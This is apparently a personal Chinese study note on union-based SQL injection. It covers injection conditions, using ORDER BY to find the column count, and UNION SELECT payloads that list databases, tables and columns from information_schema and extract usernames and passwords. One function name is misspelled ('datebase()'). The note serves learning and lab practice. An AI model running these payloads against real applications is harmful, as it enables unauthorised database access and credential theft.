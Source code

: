 # SQL注入

2021/09/12 18:13

## 使用union

`union`操作符

`select col_name from table union select col_name from table `

## 注入场景

1.  只有最后子句允许有`order by`
2.  只有最后子句允许有 `LIMIT`
3.  字段数和字段类型一样
4.  注入点有回显

## 实践

1.  `order by 确定字段数`→使用union联合查询
2.  `select `语句中可以嵌套`select`语句
    1.  库信息
        1.  查看数据库版本： `select version()`
        2.  读当前库名称：`datebase()`
        3.  读所有库使用的是sql里面内置的库 `select schema_name from information_schema.schemata`！只能显示一行
        4.  可以使用`group_concat()`显示在一行中
    2.  表信息
        1.  查询表名` select table_name from information_schema.tables where table_schema='security'`
        2.  读字段` select column_name from information_schema.columns where table_name='users'`

## updatexml报错注入

<https://www.jianshu.com/p/d8ae3e8dabdc>

![](https://upload-images.jianshu.io/upload_images/10148719-626260d9eacbebb3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1010/format/webp)

1.  `concat()` 函数多个字段变成一行
添加日期时间


2021/04/23 18:47

获取数据库

```sql
union select 1,2,database()
```

获取各种表

```sql
union select 1,2,group_concat(table_name)
from information_schema.tables where table_schema='security' 
```

获取表中的字段名

```sql
union select 1,2,group_concat(column_name)
from information_schema.columns where table_name='users' --+
```

根据找到的字段名开始获取数据

```sql
union select 1,user,password
from user 
```

